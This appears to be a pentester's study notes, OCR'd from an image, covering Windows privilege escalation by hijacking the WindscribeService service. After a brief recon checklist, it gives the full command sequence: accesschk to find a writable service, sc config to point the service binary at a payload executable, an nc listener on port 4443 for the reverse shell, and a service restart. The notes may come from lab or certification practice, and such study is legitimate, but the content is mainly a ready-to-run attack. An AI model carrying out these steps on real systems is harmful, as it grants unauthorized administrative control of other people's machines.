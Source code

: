 (checklist)

- port scan
- version scan
- service scan

COMMANDS:
C:\Users\user\Desktop\Tools\accesschk64.exe -uwcv user *
 - RW WindscribeService SERVICE_ALL_ACCESS

sc qc WindscribeServicequit
 - BINARY_PATH_NAME   : "C:\Program Files (x86)\Windscribe\WindscribeService.exe"

Change the path to our payload:
sc config WindscribeService binpath= "C:\Users\user\Downloads\usp_payload.exe"

Verify the change:
sc qc WindscribeService

Setup listener: usp_payload uses port 4443 per our first config payload
nc -nlvp 4443

Restart service:
sc stop WindscribeService
sc query WindscribeService
sc start WindscribeService

go back to listening terminal